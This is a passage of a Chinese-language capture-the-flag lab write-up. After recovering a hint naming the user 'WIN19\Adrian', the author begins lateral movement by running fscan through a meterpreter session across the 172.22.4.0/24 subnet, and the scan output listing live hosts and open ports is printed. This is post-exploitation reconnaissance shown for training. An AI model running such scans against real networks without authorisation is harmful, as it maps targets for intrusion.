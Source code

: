 查看 flag

[![](assets/1705540441-4136b463da73b29c6985f0ab8fc02fac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174619-198dcf5e-b454-1.png)

给了一段话

```plain
Great job!!!!!!
Here is the hint: WIN19\Adrian
I'll do whatever I can to rock you...
```

明显是一个用户名，先留着

# 内网横向

## 信息搜集

上线 VIPER 后 fscan 扫描

```plain
meterpreter > shell -c './fscan -h 172.22.4.36/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.4.36     is alive
(icmp) Target 172.22.4.45     is alive
(icmp) Target 172.22.4.7      is alive
(icmp) Target 172.22.4.19     is alive
[*] Icmp alive hosts len is: 4
172.22.4.45:80 open
172.22.4.36:80 open
172.22.4.36:22 open
172.22.4.36:21 open
172.22.4.36:3306 open
172.22.4.19:445 open
172.22.4.7:445 open
172.22.4.45:445 open
172.22.4.19:139 open
172.22.4.7:139 open
172.22.4.45:139 open
172.22.4.19:135 open
172.22.4.45:135 open
172.22.4.7:135 open
```